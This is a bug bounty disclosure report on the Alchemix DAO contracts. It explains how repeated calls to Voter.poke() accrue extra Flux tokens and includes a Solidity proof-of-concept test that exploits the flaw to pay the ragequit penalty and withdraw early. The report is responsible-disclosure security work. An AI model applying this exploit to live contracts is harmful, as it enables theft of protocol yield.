 # 30906 - \[SC - Critical] Voterpoke can be called at will leading to a us...

Submitted on May 7th 2024 at 21:34:31 UTC by @dirtymic for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30906

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:

* Theft of unclaimed yield

## Description

## Brief/Intro

After a user votes, they can call poke however many times they want. This accrues Flux each time it recasts their vote. Giving them access to either Ragequit and withdraw early or leave the unclaimed flux and max boost their future votes, as well as walk away with leftover Flux tokens.

## Vulnerability Details

Once a user votes, they cannot vote again until the next epoch. However `Voter.poke()` can be called at any time. In the `poke` function `_vote` is called.

In `_vote` there is a call to the flux token contract that accrues unclaimed Flux.

```
...
    _reset(_tokenId);

        uint256 _poolCnt = _poolVote.length;
        uint256 _totalVoteWeight = 0;
        uint256 _totalWeight = 0;

        for (uint256 i = 0; i < _poolCnt; i++) {
            _totalVoteWeight += _weights[i];
        }

        IFluxToken(FLUX).accrueFlux(_tokenId);
...
```

This accrues the unclaimed Flux balance of the \_tokenId by the amount of `claimableFlux` received from the VotingEscrow.sol contract

```
function claimableFlux(uint256 _tokenId) public view returns (uint256) {
        // If the lock is expired, no flux is claimable at the current epoch
        if (block.timestamp > locked[_tokenId].end) {
            return 0;
        }

        // Amount of flux claimable is <fluxPerVeALCX> percent of the balance
        return (_balanceOfTokenAt(_tokenId, block.timestamp) * fluxPerVeALCX) / BPS;
    }
```

Poke can be called at whim after a user has voted allowing a user to accrue Flux whenever they want. The amount of Flux accrued grows in proportion to the balance of veALCX of a tokenId.

## Impact Details

A user can accrue Flux at an abnormal rate using `poke()`, this allows a user to exit from a lock within 1 epoch by calling `poke()` enough times to accrue a large enough balance to pay the Ragequit penalty. If a user were to create a lock with 1 token, vote, and then call poke 110 times. They would have enough Flux to pay the penalty and walk away with 7.5 Flux tokens.

A user also has the option to leave the unclaimed Flux and use it to max boost their future votes.

## References

Poke: https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L194-L212 \_vote: https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L412-L455 accrueFlux: https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/FluxToken.sol#L187-L192 claimableFlux: https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L376-L385

## Proof of Concept

This was written in the provided Voting.t.sol

```
function testVoteAndPoke() public {
        uint256 tokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, false);

        hevm.startPrank(admin);

        hevm.warp(block.timestamp + nextEpoch);

        address[] memory pools = new address[](1);
        pools[0] = alETHPool;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        voter.vote(tokenId, pools, weights, 0);

        for (uint i = 0; i < 110; i++) {
            voter.poke(tokenId);
        }

        address[] memory poolVote = voter.getPoolVote(tokenId);
        assertEq(poolVote[0], alETHPool);

        uint256 penaltyAmount = veALCX.amountToRagequit(tokenId);

        flux.claimFlux(tokenId, penaltyAmount);

        flux.approve(address(veALCX), penaltyAmount);

        veALCX.startCooldown(tokenId);

        hevm.warp(block.timestamp + nextEpoch);

        voter.reset(tokenId);

        uint256 flux1 = flux.unclaimedFlux(tokenId);

        veALCX.withdraw(tokenId);

        uint256 fluxBalanceAfter = flux.balanceOf(admin);

        assertEq(fluxBalanceAfter, flux1);

        emit Message("Admin balance after withdraw", IERC20(bpt).balanceOf(admin));

    }
```
